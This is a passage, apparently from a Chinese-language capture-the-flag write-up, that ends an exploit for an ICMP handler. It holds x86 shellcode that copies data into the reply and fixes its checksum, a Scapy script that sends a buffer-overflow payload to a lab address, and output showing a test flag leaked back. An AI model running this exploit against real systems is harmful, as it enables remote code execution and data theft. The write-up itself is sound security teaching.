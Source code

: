 ```python
    mov  eax, 0x108AA9
    call eax
    add  esp, 0xc
    
    // clear icmp checksum
    xor eax, eax
    mov ebx, 0x10c2a4
    mov [ebx],ax
    
    // calc icmp checksum 
    push 516
    push 0x10c2a2
    mov  eax, 0x1023E3
    call eax
    add  esp, 0x8
    
    // write back icmp checksum
    mov  ebx, 0x10c2a4
    mov  [ebx],ax

    // return to reply
    mov  eax, 0x10014B
    jmp  eax
''')

payload  = b'a' * 10     # shellcode addr padding
payload += shellcode.ljust(478,b'b')
payload += p32(0x10C8Ac) # v10
payload += p32(0)*3
payload += p32(0x10c8e0) # shellcode addr

p = sr1(IP(dst="10.11.11.3")/ICMP()/payload)
print(p)
```

可以成功收到flag：

```c
➜  python3 exp.py
Begin emission:
Finished sending 1 packets.
.................................................*
Received 50 packets, got 1 answers, remaining 0 packets
WARNING: Calling str(pkt) on Python 3 makes no sense!
b'E\x00\x02\x18\x06\x04\x00\x00>\x01J\xc8\n\x0b\x0b\x03\n\x0b\x0b\x01\x00\x00@x\x00
\x00\x00\x00aaaaaaaaaajh\x00\x005\x00hp\xc3\x10\x00\xb8\xa9\x8a\x10\x00\xff\xd0\x83
\xc4\x0c1\xc0\xbb\xa4\xc2\x10\x00f\x89\x03h\x04\x02\x00\x00h\xa2\xc2\x10\x00\xb8\xe3
#\x10\x00\xff\xd0\x83\xc4\x08\xbb\xa4\xc2\x10\x00f\x89\x03\xb8K\x01\x10\x00\xff\xe0b
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbflag{test}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
\bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb\x80\xc2\x10\x00\xac\xc8\x10\x00
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\xc8\x10\x00'
```

